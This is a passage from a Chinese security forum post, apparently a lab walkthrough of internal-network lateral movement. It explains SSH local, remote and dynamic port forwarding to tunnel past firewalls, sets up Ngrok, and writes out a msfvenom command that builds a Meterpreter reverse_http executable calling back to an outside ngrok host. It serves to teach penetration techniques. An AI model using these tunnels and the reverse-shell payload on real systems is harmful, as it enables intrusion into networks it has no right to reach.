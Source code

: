 1

2

|

`应用层的隧道通信主要利用应用软件提供的端口转发数据。常见的应用层隧道协议有SSH、HTTP、DNS等。其中SSH协议通常是被允许通过防火墙和边界设备的，且内网中Linux设备都支持SSH协议，同时SSH的传输过程是加密的，使得难以区分合法的SSH和攻击者建立的隧道。`

`常用的SSH隧道有以下几种类型：本地转发、远程转发、动态转发。SSH命令常用参数有:`  
  
---|---  
  
-C：压缩传输，提高速度。  
-f: 后台执行  
-N:建立静默连接  
-g:允许远程主机连接本地用于转发的端口  
-L:本地端口转发  
-R:远程端口转发  
-D:动态端口转发  
-P:指定SSH端口



本地转发：  
在VPS执行如下相应命令，该命令以web服务器为跳板，将内网服务器的端口映射到公网的vps上，我们访问对应公网vps的端口即可。  
Ssh -CfNg -L 公网VPS端口:目标主机IP:目标端口号 root@跳板机IP



远程转发：  
当公网的vps不能访问访问到内网的服务器（包括web服务器），但web服务器能访问到公网的vps时，我们在web服务器执行如下相应命令，该命令以web服务器为跳板，将vps端口的流量转发到内网服务器相应端口上，我们访问对应公网vps的端口即可。  
Ssh -CfNg -R vps端口:目标主机IP:目标端口号 root@跳板机IP



动态转发：  
动态端口映射时建立一个ssh加密的socks4/5代理通道，任何支持socks4/5协议的程序都可以通过此通道进行代理访问。我们在vps上执行如下命令：  
ssh -CfNg -D 7000 root@代理主机IP

## [](https://bbs.pediy.com/thread-268289.htm)6.4 Ngrok实现内网穿透

执行命令./sunny clientid d8d99b5ff5d4996  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_C8KXY3PHT6RT74T.png)  
访问对应的域名，确认能连接成功：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_DNUQHQK45N68J4S.png)  
执行命令生成相应的exe：  
msfvenom -p windows/meterpreter/reverse_http lhost=mai1zhi2.free.idcfengye.com
lport=80 -f exe -o h7.exe  
设置好相应的payload后，打开监听，运行exe：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_FADX3B7NE9YCSSV.png)

